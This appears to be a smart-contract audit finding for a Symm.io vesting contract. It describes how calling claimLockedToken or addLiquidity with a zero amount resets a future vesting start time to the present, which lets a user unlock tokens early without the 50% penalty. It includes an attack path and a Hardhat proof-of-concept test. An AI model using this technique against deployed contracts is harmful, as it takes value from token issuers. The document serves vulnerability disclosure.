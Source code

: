 Quaint Leather Badger

Medium

# An attacker can start unlocking tokens earlier if an admin has set the startTime to a point in the future and can thus avoid the 50% penalty on the prematurely unlocked tokens

### Summary

`resetAmount` sets the `startTime` of a vesting to `block.timestamp`, which is problematic if the vesting has not yet started, as it moves the start time forward and causes tokens to unlock earlier than intended. This can be exploited by an attacker through `addLiquidity` and `claimLockedToken`, as `resetAmount` is used in these functions.

### Root Cause

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/libraries/LibVestingPlan.sol#L75-L81
In `resetAmount`, you can see that `startTime` is set to `block.timestamp`. This is problematic in cases where the vesting's `startTime` was in the future because it would cause the unlocking to start earlier than intended.
Someone with a vesting that has a `startTime` in the future can call two functions that allow resetting the amount on the vesting:
1. claimLockedToken:
The user can call `claimLockedToken` with an amount of 0.
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/Vesting.sol#L281-L288
This ensures that `resetAmount` for the vesting is called and the `startTime` is set to `block.timestamp`. Since the amount is 0, nothing else changes in the vesting, and the user does not receive any penalty.
2. addLiquidity
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/SymmVesting.sol#L142
Here, you can do the same as above, set the amount to 0 so that nothing else happens in the function and no liquidity is actually added, but instead, only `resetAmount` is called, and the vesting `startTime` is set to `block.timestamp`.

### Internal Pre-conditions

1. The admin must create a vesting that has a startTime in the future

### External Pre-conditions

None

### Attack Path

1. Admin creates vesting with `startTime` > `block.timestamp`
2. The user to whom the vesting belongs then calls `claimLockedToken` with an amount of 0  
3. The vesting gets an earlier start time and starts unlocking tokens immediately instead of waiting for the start time set by the admin

### Impact

Users can claim a part of their tokens earlier than they should be able to and bypass the 50% penalty for this amount that is normally applied to early unlocking.

### PoC

The following test can be added to `token/tests/symmVesting.behavior.ts` and started with `npx hardhat test --grep "early unlock"`:
```javascript
		it("early unlocking", async () => {
			const users = [await user2.getAddress()]
			const amounts = [e("1000")]
			const startTime = await time.latest() + 2 * 7 * 24 * 60 * 60 // 2 weeks in the future
			const endTime = startTime + 9 * 30 * 24 * 60 * 60 // 9 months later
			
			//Admin creates a vesting that is set to start in 2 weeks
			await symmVesting.connect(admin).setupVestingPlans(await symmToken.getAddress(), startTime, endTime, users, amounts)
			
			//Shows that the startTime is moved forward by two weeks due to resetAmount in addLiquidity
			console.log("symmVesting user2 before: ", (await symmVesting.vestingPlans(await symmToken.getAddress(), await user2.getAddress())).startTime)
			await symmVesting.connect(user2).addLiquidity(e("0"), 0, e("10000"))
			console.log("symmVesting user2 after: ", (await symmVesting.vestingPlans(await symmToken.getAddress(), await user2.getAddress())).startTime)

			await time.increaseTo(await time.latest() + 2 * 7 * 24 * 60 * 60) //Fast forward the time by 2 weeks
			
			//Shows that the user was able to claim approximately 49 tokens after two weeks without having to pay any penalty, 
			//even though the unlocking would normally only start now.
			console.log("user2 symmToken balance before: ", await symmToken.balanceOf(await user2.getAddress()))
			await symmVesting.connect(user2).claimUnlockedToken(await symmToken.getAddress())
			console.log("user2 symmToken balance after: ", await symmToken.balanceOf(await user2.getAddress()))
		})
```

### Mitigation

_No response_